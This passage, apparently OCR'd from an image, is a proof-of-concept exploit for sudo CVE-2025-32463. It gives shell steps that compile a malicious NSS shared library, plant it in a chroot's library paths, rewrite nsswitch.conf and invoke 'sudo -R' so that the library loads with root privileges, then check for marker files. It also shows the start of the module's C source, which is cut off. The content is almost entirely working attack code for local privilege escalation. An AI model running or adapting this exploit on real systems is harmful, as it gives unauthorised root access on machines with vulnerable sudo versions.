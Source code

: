 # 4) Compile the malicious module
cc -fPIC -shared -o /tmp/libnss_myhack.so.2 /tmp/libnss_myhack.c

# 5) Install module into likely library search paths inside the chroot
for d in "$CH"/lib "$CH"/lib64 "$CH"/usr/lib "$CH"/lib/x86_64-linux-gnu; do cp /tmp/libnss_myhack.so.2 "$d"/; done

# 6) Trigger sudo with -R to pivot into chroot and perform NSS lookups
sudo -R "$CH" -u root /usr/bin/true || true
sudo -R "$CH" /usr/bin/id || true

# 7) Verify markers
ls -l "$CH"/tmp/nss_poc_constructor || true
ls -l /tmp/nss_poc_destructor || true
cat /tmp/nss_poc_destructor || true

# 8) Optional: tighten nsswitch to force earlier lookup and retry
printf "passwd: myhack\nshadow: myhack\ngroup: myhack\n" > "$CH"/etc/nsswitch.conf
sudo -R "$CH" /usr/bin/id || true
ls -l /tmp/nss_poc_destructor || true


sudo_cve_2025_32463_poc_source
[23:56:38]
Full C source for malicious NSS module used in PoC (libnss_myhack.c):

#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <sys/stat.h>
#include <pwd.h>
#include <grp.h>
#include <nss.h>

static void write_file(const char *path, const char *msg) {
    int fd = open(path, O_CREAT|O_WRONLY|O_TRUNC, 0644);
    if (fd >= 0) {
        write(fd, msg, strlen(msg));
        close(fd);
    }
}
